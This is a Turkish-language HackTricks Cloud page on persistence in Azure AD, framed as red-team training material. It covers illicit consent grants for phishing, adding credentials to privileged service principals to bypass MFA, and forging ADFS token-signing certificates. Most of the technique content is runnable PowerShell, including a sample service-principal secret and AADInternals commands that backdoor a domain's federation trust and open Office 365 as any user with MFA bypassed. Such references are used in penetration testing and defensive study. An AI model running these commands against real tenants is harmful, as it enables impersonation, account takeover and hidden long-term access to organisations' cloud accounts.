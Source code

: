 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### İzin Verilmeyen Onay Verme

Varsayılan olarak, herhangi bir kullanıcı Azure AD'de bir uygulama kaydedebilir. Bu nedenle, yüksek etki izinlerine ihtiyaç duyan (ve eğer admin iseniz onaylayabileceğiniz) bir uygulama kaydedebilirsiniz - örneğin, bir kullanıcının adına e-posta göndermek, rol yönetimi vb. Bu, başarılı olursa **oltalama saldırıları** gerçekleştirmemize olanak tanıyacaktır.

Ayrıca, bu uygulamayı kullanıcı olarak kabul ederek ona erişimi sürdürme yolunu da seçebilirsiniz.

### Uygulamalar ve Hizmet Prensipleri

Uygulama Yöneticisi, GA veya microsoft.directory/applications/credentials/update izinlerine sahip özel bir rol ile, mevcut bir uygulamaya kimlik bilgileri (gizli anahtar veya sertifika) ekleyebiliriz.

**Yüksek izinlere sahip bir uygulamayı hedeflemek** veya **yüksek izinlere sahip yeni bir uygulama eklemek** mümkündür.

Uygulamaya eklemek için ilginç bir rol, **Ayrıcalıklı kimlik doğrulama yöneticisi rolü** olacaktır çünkü bu, Küresel Yöneticilerin **şifresini sıfırlama** yetkisi verir.

Bu teknik ayrıca **MFA'yı atlatma** olanağı da sağlar.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Sertifika tabanlı kimlik doğrulama için

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

On-prem AD üzerinde **DA ayrıcalıkları** ile, çok uzun geçerlilik süresine sahip **yeni Token signing** ve **Token Decrypt sertifikaları** oluşturmak ve içe aktarmak mümkündür. Bu, bildiğimiz herhangi bir kullanıcının ImuutableID'si ile **giriş yapmamıza** olanak tanıyacaktır.

**Aşağıdaki komutu** **ADFS sunucularında DA olarak** çalıştırarak yeni sertifikalar oluşturun (varsayılan şifre 'AADInternals'), bunları ADFS'ye ekleyin, otomatik yenilemeyi devre dışı bırakın ve hizmeti yeniden başlatın:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Sonra, sertifika bilgilerini Azure AD ile güncelleyin:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Güvenilir Alan

GA ayrıcalıkları ile bir kiracıda, **yeni bir alan eklemek** mümkündür (doğrulanması gerekir), kimlik doğrulama türünü Federated olarak yapılandırmak ve alanı **belirli bir sertifikaya** (aşağıdaki komutta any.sts) ve vericiye güvenecek şekilde yapılandırmak mümkündür:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referanslar

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
